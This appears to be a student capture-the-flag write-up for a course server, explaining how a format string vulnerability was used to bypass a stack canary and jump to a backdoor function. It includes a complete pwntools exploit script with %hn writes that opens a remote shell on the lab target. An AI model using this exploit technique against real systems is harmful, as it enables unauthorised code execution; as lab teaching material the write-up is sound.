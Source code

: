 ![alt text](img/Screenshot%202022-12-15%20at%2003.38.56.JPG)

Used checksec to check protections and found out it had a Canary so couldn't just do a normal buffer overflow attack. However, we found we could exploit vuknerabilities related to strings.

![alt text](img/Screenshot%202022-12-15%20at%2003.42.31.JPG)

After analysing the functions in the program, we found the old_backdoor file particularly interesting, as we could use its system call to exploit the address where it was located to run the function and compromise the system.

We found the old_backdoor address to be ```0x0804c010```, and using format strings vulnerabilities, we wrote the following code to explot this weakness:

```python
from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  (0xaaaabbbb).to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("????").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()
```

This script opened a new shell which we used to get the flag.

![alt text](img/Screenshot%202022-12-15%20at%2003.49.30.JPG)